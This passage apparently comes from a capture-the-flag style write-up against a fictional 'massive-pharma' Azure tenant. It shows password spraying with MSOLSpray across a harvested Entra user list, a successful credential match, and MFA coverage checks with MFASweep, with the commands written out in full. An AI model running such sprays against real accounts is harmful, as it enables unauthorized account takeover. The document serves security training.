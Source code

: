 Let's use the password we got from the emails and spray it across the user list we pulled from Entra. Maybe we can pivot to another user. 

Let's use [MSOLSpray](https://github.com/dafthack/MSOLSpray) and see if the password matches any of the users we managed to pull from Entra. 

Let's `git clone https://github.com/dafthack/MSOLSpray` and `cd MSOLSPray` then run `pwsh` and import the module with `Import-Module MSOLSpray.ps1`

Now we can spray the password with `Invoke-MSOLSpray -UserList .\azureusers.txt -Password $MPappdev1`

![Spray](/assets/img/Sprayflag3.png)

And we get a match for `yuki@massive-pharma.com` with the password `$MPappdev1`

![Success](/assets/img/sprayflag3success.png)

## MFASweep 

Now before we just login to the account and set off MFA push notifications let's first see if it is protected with MFA using [MFASweep](https://github.com/dafthack/MFASweep).

As usual we `git clone https://github.com/dafthack/MFASweep` and `cd MFASweep`. In a Powershell terminal `pwsh` run `Import-Module MFASweep.ps1`.

Now we can run MFASweep against `yuki@massive-pharma.com` with `Invoke-MFASweep -Username yuki@massive-pharma.com -Password '$MPappdev1'`.

![MFASweep](/assets/img/mfasweepflag3.png)

